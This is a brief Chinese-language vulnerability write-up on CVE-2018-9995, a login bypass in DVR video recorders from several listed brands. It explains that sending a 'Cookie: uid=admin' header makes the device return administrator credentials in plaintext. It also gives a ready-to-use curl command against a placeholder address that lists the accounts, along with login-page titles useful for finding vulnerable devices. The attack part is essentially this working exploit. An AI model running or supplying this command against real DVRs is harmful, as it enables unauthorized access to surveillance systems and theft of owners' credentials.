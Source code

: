 # DVR 登录绕过漏洞 CVE-2018-9995

## 漏洞描述

DVR，全称为Digital Video Recorder(硬盘录像机)，即数字视频录像机。最初由阿根廷研究员发现，通过使用“Cookie： uid = admin”的Cookie标头来访问特定DVR的控制面板，DVR将以明文形式响应设备的管理员凭证。

## 漏洞影响

```
Novo
CeNova
QSee
Pulnix
XVR 5 in 1 (title: "XVR Login")
Securus, - Security. Never Compromise !! -
Night OWL
DVR Login
HVR Login
MDVR Login
```

## 漏洞复现

使用curl命令获得账号密码

```shell
curl "http://xxx.xxx.xxx.xxx/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

![](images/202202110916977.png)